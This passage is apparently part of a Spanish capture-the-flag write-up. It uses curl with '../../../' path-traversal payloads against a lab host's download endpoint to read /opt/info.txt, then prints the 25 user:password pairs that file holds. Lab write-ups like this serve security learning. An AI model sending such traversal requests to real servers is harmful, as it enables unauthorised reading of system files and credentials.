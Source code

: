 Vemos que hay dos rutas que son las siguientes:

```xml
<volume>/home/designer/gitea:/data/info.txt</volume>
<volume>/opt/"INFO_FILE"</volume>
```

Por lo que vamos a probar a ver ese archivo:

```shell
curl "http://gitea.dl/download?filename=../../../../../home/designer/gitea/data/info.txt"
```

Pero no nos dejara, despues nos indica que hay un archivo de informacion en el `/opt` si probamos a ver el archivo de antes, pero en la ruta de `/opt` veremos esto:

```shell
curl "http://gitea.dl/download?filename=../../../../../opt/info.txt" > info.txt
```

Info:

```
user001:Passw0rd!23 - Juan abrió su laptop y suspiró. Hoy era el día en que finalmente accedería a la base de datos.
user002:Qwerty@567 - Marta había elegido su contraseña basándose en su teclado, una decisión que lamentaría más tarde.
user003:Secure#Pass1 - Cuando Miguel configuró su clave, pensó que era invulnerable. No sabía lo que le esperaba.
user004:H4ckM3Plz! - Los foros de hackers estaban llenos de desafíos, y Pedro decidió probar con una cuenta de prueba.
user005:Random*Key9 - Sofía tenía la costumbre de escribir sus contraseñas en post-its, hasta que un día desaparecieron.
user006:UltraSafe99$ - "Esta vez seré más cuidadoso", se prometió Andrés mientras ingresaba su nueva clave.
user007:TopSecret!! - Lucía nunca compartía su contraseña, ni siquiera con sus amigos más cercanos.
user008:MyP@ssw0rd22 - Julián pensó que usar números en lugar de letras lo haría más seguro. Se equivocó.
user009:S3cur3MePls# - La empresa exigía contraseñas seguras, pero Carlos siempre encontraba una forma de simplificarlas.
user010:Admin123! - Un ataque de fuerza bruta reveló que la cuenta del administrador tenía una clave predecible.
user011:RootMePls$5 - Daniel dejó su servidor expuesto y no tardó en notar actividad sospechosa.
user012:SuperSecure*78 - Alejandra se enorgullecía de su conocimiento en seguridad, pero un descuido le costó caro.
user013:HelloWorld#91 - A Roberto le gustaba la programación y decidió usar un clásico como su clave.
user014:LetMeInNow!! - Diego estaba cansado de recordar claves complejas y optó por algo simple.
user015:TrickyPass66 - Una red social filtró su contraseña y pronto la vio expuesta en la web.
user016:UnsafeButFun$$ - Joaquín se divertía rompiendo su propia seguridad, pero un día fue víctima de su propio juego.
user017:HackThis!@3 - Beatriz creó su contraseña en modo irónico, pero los atacantes no lo tomaron como broma.
user018:SuperSecurePassword123 - Los hackers más novatos pensaban que usar lenguaje leet era seguro. No lo era.
user019:JustAnotherKey99 - Nadie pensaría en usar una clave tan genérica... excepto miles de personas.
user020:TryGuessMe#22 - Un pentester descubrió la clave en segundos y le envió un mensaje a su dueño.
user021:SimplePass88! - Isabel nunca imaginó que alguien intentaría adivinar su contraseña.
user022:HiddenSecret!2 - Aún después de cambiar su clave, Luis no podía quitarse la sensación de inseguridad.
user023:CrazyCodePass@ - Un desarrollador decidió probar una contraseña al azar... y olvidarla al día siguiente.
user024:SneakyKey99$ - Los ataques de diccionario estaban de moda, y Pablo decidió cambiar su clave.
user025:Password@Vault - Un gestor de contraseñas podría haber ayudado a Ricardo, pero prefirió confiar en su memoria.
```